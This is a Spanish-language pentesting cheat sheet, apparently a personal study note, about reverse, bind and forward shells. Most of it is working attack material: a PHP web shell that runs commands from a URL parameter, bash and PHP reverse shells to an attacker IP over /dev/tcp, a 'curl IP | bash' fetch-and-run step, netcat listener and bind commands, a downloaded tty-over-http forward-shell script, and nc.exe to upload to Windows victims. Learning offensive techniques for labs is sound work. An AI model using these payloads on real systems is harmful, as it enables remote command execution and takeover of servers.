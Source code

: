 # Diferentes tipos de ReverShell

Tags: #ReverShell #Comandos 

Tenemos diferntes tipos de [1 ReverShell](1%20ReverShell.md) en este pagina Web: [Monkey-Pentester](https://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet)

-   **Reverse Shell**: Es una técnica que permite a un atacante conectarse a una máquina remota desde una máquina de su propiedad. Es decir, se establece una conexión desde la máquina comprometida hacia la máquina del atacante. Esto se logra ejecutando un programa malicioso o una instrucción específica en la máquina remota que establece la conexión de vuelta hacia la máquina del atacante, permitiéndole tomar el control de la máquina remota.
-   **Bind Shell**: Esta técnica es el opuesto de la Reverse Shell, ya que en lugar de que la máquina comprometida se conecte a la máquina del atacante, es el atacante quien se conecta a la máquina comprometida. El atacante escucha en un puerto determinado y la máquina comprometida acepta la conexión entrante en ese puerto. El atacante luego tiene acceso por consola a la máquina comprometida, lo que le permite tomar el control de la misma.
-   **Forward Shell**: Esta técnica se utiliza cuando no se pueden establecer conexiones Reverse o Bind debido a reglas de Firewall implementadas en la red. Se logra mediante el uso de **mkfifo**, que crea un archivo **FIFO** (**named pipe**), que se utiliza como una especie de “**consola simulada**” interactiva a través de la cual el atacante puede operar en la máquina remota. En lugar de establecer una conexión directa, el atacante redirige el tráfico a través del archivo **FIFO**, lo que permite la comunicación bidireccional con la máquina remota.

La mayoría de las paginas al momento de comprometerlas encontraremos el usuario **www-data** que es el encargado de gestionar la parte de servicios web.

## ReverShell, BindShell
Para ejecutar comandos en la Web debemos de crear o subir un archivo en el **/var/www/html** con el siguiente contenido: 
```php
❯ nano cmd.php

	<?php 
		echo "<prep>" . shell_exec($_GET['cmd']) . "</prep>";
	?>
```
Las etiquetas que usamos ahi son **Pre** de preformateadas y nos sirven para que nos muestre bien el Output
Ya con ese archivo y que la Web interprete **php** podemos colocar en la url **?cmd=** y ahi pode colocar comandos y ver que Shell podriamos usar para conectarmos a nuestra maquina de **Atacante**.

```bash
❯ nano index.html
	#!/bin/bash
	bash -i >& /dev/tcp/10.10.14.2/443 0>&1

	# IP = IP de atacante
	# 443 = Puerto a usar

❯ curl ❮IP❯ | bash                     # Lo que hace Curl es obtener un index.html del servidor y despues con el bash haremos que nos interprete la data en bash
```

ReverShell en php
```php
<?php
   system("bash -c 'bash -i >& /dev/tcp/10.10.14.13/443 0>&1'")
?>

	# IP = IP de atacante
	# 443 = Puerto a usar
```

Para ponernos en escucha por Netcat en espera de la **ReverShell**:
1) Linux
2) Windows
```bash
❯ nc -nlvp 443 

❯ rlwrap nc -nlvp 443

	# nc = Netcat 
	# n = No DNS
	# l = Modo escucha, conexiones entrantes
	# v = verbose
	# p = numero local de puerto en esucha

```

Para ejecutar Netcat y hacer la **BindShell**: 
```bash
❯ nc IP-Victima 443
```

## ForwardShell

Para ejecutar comandos en la Web debemos de crear o subir un archivo en el **/var/www/html** con el siguiente contenido: 
```shell
❯ nano cmd.php
	<?php 
		echo shell_exec($_GET['cmd']);
	?>

```
Las etiquetas que usamos ahi son **Pre** de preformateadas y nos sirven para que nos muestre bien el Output
Ya con ese archivo y que la Web interprete **php** podemos colocar en la url **?cmd=** y ahí pode colocar comandos y conectarnos a nuestra maquina de **Atacante** por una **ForwardShell**

Descargaremos el siguiente archivo y lo ejecutaremos con Pyhton3 para hacer una **ForwardShell**: 
Debemos estar en la pestana de **Raw**
* [Tty_Over_Http](https://raw.githubusercontent.com/s4vitar/ttyoverhttp/master/tty_over_http.py)
```bash
❯ wget https://raw.githubusercontent.com/s4vitar/ttyoverhttp/master/tty_over_http.py

	# Descargarnos el archivo 'tty_over_html'
	# Cambiamos la parte de index.php por cmd.php (Dependiendo el servidor)

❯ python3 tty_over_http.py 
```


### Binario para Windows

Este .exe lo debemos de subir a la maquina victima en Windows
```bash
❯ /usr/share/Seclists/Web-Shells/FuzzDB/nc.exe           # Netcat .exe nos ayuda a conseguir una ReverShell en Windows
```